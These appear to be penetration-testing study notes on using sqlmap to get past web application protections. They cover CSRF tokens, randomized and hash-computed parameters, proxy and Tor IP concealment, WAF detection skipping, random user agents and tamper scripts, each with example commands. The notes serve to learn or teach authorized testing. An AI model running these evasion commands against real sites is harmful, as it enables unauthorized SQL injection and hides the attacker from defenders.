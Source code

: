 # Bypassing Web Application Protections

### for CSRF protection - `--csrf-token`

- usage

```sh
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

### for unique value bypass

- `--randomize`

```sh
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

### calculated parameter bypass

```sh
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

```

### IP Address Concealing

- if WAF blacklists our current IP, try to use a proxy or Tor
- proxy - `--proxy`
- if we have list of proxies, `--proxy-file`

### WAF Bypass

- sqlmap uses third party library identYwaf - https://github.com/stamparm/identYwaf
- if we want to skip this step, use `--skip-waf` (to produce less noise)

### User-agent Blacklisting Bypass

- in case of immediate problems (like 5xx from the start) while running sqlmap, it may be due to blacklisting of the default user-agent used by sqlmap (sqlmap/...)
- use `--random-agent`

### Tamper Scripts

- special kind of python scripts written for modifying requests just before being sent to the target to bypass some protection
- eg - between (https://github.com/sqlmapproject/sqlmap/blob/master/tamper/between.py) - replacing all occurrences of greater than operator(>) with `NOT BETWEEN 0 AND #` and equal operator (=) with `BETWEEN # AND #`
- `tamper=between,randomcase`
- ifnull2ifisnull - https://github.com/sqlmapproject/sqlmap/blob/master/tamper/ifnull2ifisnull.py
- appendnullbyte - https://github.com/sqlmapproject/sqlmap/blob/master/tamper/appendnullbyte.py
